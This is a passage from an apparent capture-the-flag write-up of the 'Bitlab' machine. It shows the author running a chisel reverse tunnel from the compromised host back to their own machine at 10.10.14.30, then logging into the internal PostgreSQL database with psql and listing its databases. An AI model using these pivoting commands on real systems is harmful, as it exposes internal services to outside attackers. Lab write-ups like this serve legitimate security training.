Now I’ll start the server on my host with the `--reverse` option so that I can create a reverse tunnel:

```

root@kali:/opt/chisel# ./chisel server -p 8000 --reverse
2019/09/08 11:56:39 server: Reverse tunnelling enabled
2019/09/08 11:56:39 server: Fingerprint 87:f2:60:3d:3b:3a:af:b9:be:99:e9:e7:fd:68:33:de
2019/09/08 11:56:39 server: Listening on 0.0.0.0:8000...

```

Now I’ll have the client on Bitlab connect to the server, and specify that I want a reverse tunnel to listen on 5432 on my host and have that connect to 5432 on localhost:

```

www-data@bitlab:/dev/shm$ ./chisel client 10.10.14.30:8000 R:5432:localhost:5432
2019/09/08 15:56:50 client: Connecting to ws://10.10.14.30:8000
2019/09/08 15:56:50 client: Fingerprint 87:f2:60:3d:3b:3a:af:b9:be:99:e9:e7:fd:68:33:de
2019/09/08 15:56:50 client: Connected (Latency 43.361952ms)

```

I can see the connection at the server as well:

```

2019/09/08 11:57:30 server: proxy#1:R:0.0.0.0:5432=>localhost:5432: Listening 

```

Now I’ll use a local `psql` to connect:

```

root@kali# psql -h 127.0.0.1 -p 5432 -U profiles                                                                                                                                                                                      
Password for user profiles: 
psql (11.5 (Debian 11.5-1), server 10.4 (Ubuntu 10.4-2.pgdg18.04+1))
Type "help" for help.

profiles=>

```

I can list the dbs:

```

profiles=> \list
                             List of databases
   Name    |  Owner   | Encoding | Collate | Ctype |   Access privileges   
-----------+----------+----------+---------+-------+-----------------------
 gitlab    | postgres | UTF8     | C       | C     | =Tc/postgres         +
           |          |          |         |       | postgres=CTc/postgres+
           |          |          |         |       | gitlab=CTc/postgres
 postgres  | postgres | UTF8     | C       | C     | 
 profiles  | postgres | UTF8     | C       | C     | =Tc/postgres         +
           |          |          |         |       | postgres=CTc/postgres+
           |          |          |         |       | profiles=CTc/postgres
 template0 | postgres | UTF8     | C       | C     | =c/postgres          +
           |          |          |         |       | postgres=CTc/postgres
 template1 | postgres | UTF8     | C       | C     | =c/postgres          +
           |          |          |         |       | postgres=CTc/postgres
(5 rows)

```

